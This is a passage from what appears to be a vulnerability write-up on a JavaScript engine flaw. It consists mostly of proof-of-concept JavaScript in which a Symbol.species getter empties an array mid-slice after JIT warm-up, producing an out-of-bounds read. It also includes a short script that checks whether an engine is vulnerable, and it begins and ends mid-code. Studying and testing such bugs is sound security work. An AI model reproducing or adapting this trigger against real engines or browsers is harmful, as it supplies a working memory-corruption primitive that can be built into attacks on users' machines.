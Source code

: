 ```javascript
            }

            Arr.length = 0;
            gc();
        };
    }
};

function main() {
    const Snowflake = new SoSpecial();
    Arr = new Array(0x7e);
    Arr.fill(0);
    for(let Idx = 0; Idx < 0x400; Idx++) {
        Target(Snowflake, 0x0);
    }

    Trigger = true;
    print(Target(Snowflake, 0x6));
}

main();
```

### What's a good way to check if the engine is vulnerable?

The most reliable way to check if the engine is vulnerable that I found is to actually use the vulnerability as out-of-bounds read to go and attempt to read out-of-bounds. At this point, there are two possible outcomes: correct execution should return `undefined` as the array has a size of `0`, or you read leftover data in which case it is vulnerable.

```javascript
let Trigger = false;
let Arr = null;

function Target(Special, Idx) {
    Arr[Idx];
    Special.slice();
    return Arr[Idx];
}

class SoSpecial extends Array {
    static get [Symbol.species]() {
        return function() {
            if(!Trigger) {
                return;
            }

            Arr.length = 0;
        };
    }
};

function main() {
    const Snowflake = new SoSpecial();
    Arr = new Array(0x7);
    Arr.fill(1337);
    for(let Idx = 0; Idx < 0x400; Idx++) {
        Target(Snowflake, 0x0);
    }

    Trigger = true;
    const Ret = Target(Snowflake, 0x5);
    if(Ret === undefined) {
        print(':( not vulnerable');
```